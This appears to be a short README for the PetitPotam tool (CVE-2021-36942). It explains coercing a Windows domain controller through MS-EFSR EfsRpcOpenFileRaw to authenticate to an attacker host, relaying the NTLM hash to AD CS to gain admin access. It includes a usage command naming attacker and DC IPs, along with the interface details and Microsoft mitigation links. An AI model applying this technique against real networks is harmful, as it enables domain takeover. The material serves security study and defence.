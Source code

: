 # PetitPotam

MS-EFSR abuse (PetitPotam)
NTLMv2 Relay Tools.

This tools use `EfsRpcOpenFileRaw` to attack `MS-EFSR` and get NTLM (domain controller) hash. You can the hash to require TGT to get admin account.

## Date

CVE-2021-36942 and patched on 2021-08-10.

## From Github

PoC tool to coerce Windows hosts to authenticate to other machines via MS-EFSRPC EfsRpcOpenFileRaw or other functions :)

The tools use the LSARPC named pipe with inteface c681d488-d850-11d0-8c52-00c04fd90f7e because it's more prevalent. But it's possible to trigger with the EFSRPC named pipe and interface df1941c5-fe89-4e79-bf10-463657acf44d. It doesn't need credentials against Domain Controller :D

Disabling the EFS service seems not to mitigate the "feature".

The Python one require Impacket to be installed, the Windows PoC was done on VS 2019 Community. If compilation problem, remember to add Rpcrt4.lib in the linker. Compile in x86.

## Need

+ Certificate Registration Web Interface, by installing the Certificate Authority Web Registration role. 

+ Publicly available as an IIS-hosted ASP Web Registration application running on http://xxx/certsrv/.

+ Certificate Enrollment Service (CES) by installing the Certificate Enrollment Web Service role. Works with the Certificate Enrollment Policy (CEP) Web Service by installing the Certificate Enrollment Policy Web Service role.

+ Network Device Enrollment Services (NDES), by installing the Network Device Enrollment Services role. 

+ Registered HTTP endpoint does not have HTTPS enabled / does not have any NTLM relay protection enabled (NTLM is allowed by default).

+ GPO disables NTLM authentication or configures the associated IIS application to accept Kerberos authentication only.

## Example

```bash
$ PetitPotam.exe <Attack_IP> <DC_IP>
```

## Theory

`MS-EFSR` have function: `EfsRpcOpenFileRaw`

```
long EfsRpcOpenFileRaw(
   [in] handle_t binding_h,
   [out] PEXIMPORT_CONTEXT_HANDLE* hContext,
   [in, string] wchar_t* FileName,
   [in] long Flags
 );
```

The used to open the encrypted object on the server for backup or restore. The encrypted object on the server is specified by the `FileName` parameter, and the type of `FileName` is UncPath.

When the format `\\IP\\C$` is specified, the lsass.exe service will access `\\IP\pipe\srvsrv`.

## Related Links

[KB5005413: Mitigating NTLM Relay Attacks on Active Directory Certificate Services (AD CS)](https://support.microsoft.com/en-us/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429)

[使用PetitPotam到NTLM中继到域管理员 | 九世的博客](https://422926799.github.io/posts/d55c75ac.html)

[GitHub - topotam/PetitPotam: PoC tool to coerce Windows hosts to authenticate to other machines via MS-EFSRPC EfsRpcOpenFileRaw or other functions.](https://github.com/topotam/PetitPotam)

[Security Update Guide - Microsoft Security Response Center](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942)

[安全研究 | 使用PetitPotam代替Printerbug - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/system/282912.html)

